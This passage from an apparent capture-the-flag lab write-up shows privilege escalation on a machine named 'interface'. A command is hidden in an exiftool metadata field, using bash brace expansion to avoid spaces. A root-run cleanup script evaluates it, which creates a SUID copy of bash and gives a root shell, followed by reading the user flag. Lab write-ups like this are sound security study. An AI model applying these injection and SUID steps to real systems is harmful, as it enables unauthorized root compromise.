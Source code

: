 I guess that the error occurs because the spaces is there in commands. e.g. `touch /tmp/hacked`.
So using Bash Brace Expansion (e.g. `echo {a,b,c}`) to bypass it.

ref: [Bypass Linux Shell Restrictions - HackTricks](https://book.hacktricks.xyz/linux-hardening/bypass-bash-restrictions)

Testing it.

```console
www-data@interface:/tmp$ touch foo; exiftool -Producer='a[$({touch,/tmp/hacked})]' foo
    1 image files updated

www-data@interface:/tmp$ /usr/local/sbin/cleancache.sh
Removing /tmp/foo
Removing /tmp/foo_original

www-data@interface:/tmp$ ls -la
total 44
drwxrwxrwt 11 root     root     4096 Jul 29 08:09 .
drwxr-xr-x 24 root     root     4096 Jan 16  2023 ..
(snip)
-rw-r--r--  1 www-data www-data    0 Jul 29 08:09 hacked
(snip)
```

Got it.
Letting the command run that copy `/bin/bash` and set the SUID to it.

```console
www-data@interface:/tmp$ touch foo; exiftool -Producer='a[$({cp,/bin/bash,/tmp/rootbash};{chmod,+s,/tmp/rootbash})]' foo
    1 image files updated

www-data@interface:/tmp$ # wait a minute...

www-data@interface:/tmp$ ls -la rootbash
-rwsr-sr-x 1 root root 1113504 Jul 29 08:18 rootbash

www-data@interface:/tmp$ /tmp/rootbash -p

rootbash-4.4# id
uid=33(www-data) gid=33(www-data) euid=0(root) egid=0(root) groups=0(root),33(www-data)
```

Got root shell.

## User flag

```console
www-data@interface:~$ ls -la /home/dev/
ls -la /home/dev/
total 32
drwxr-xr-x 4 dev  dev  4096 Jan 16  2023 .
drwxr-xr-x 3 root root 4096 Jan 16  2023 ..
lrwxrwxrwx 1 root root    9 Jan 10  2023 .bash_history -> /dev/null
-rw-r--r-- 1 dev  dev   220 Jan 10  2023 .bash_logout
-rw-r--r-- 1 dev  dev  3771 Jan 10  2023 .bashrc
drwx------ 2 dev  dev  4096 Jan 16  2023 .cache
drwx------ 3 dev  dev  4096 Jan 16  2023 .gnupg
-rw-r--r-- 1 dev  dev   807 Jan 10  2023 .profile
-rw-r--r-- 1 root dev    33 Jul 29 03:15 user.txt

www-data@interface:~$ cat /home/dev/user.txt
cat /home/dev/user.txt
[REDACTED]
```
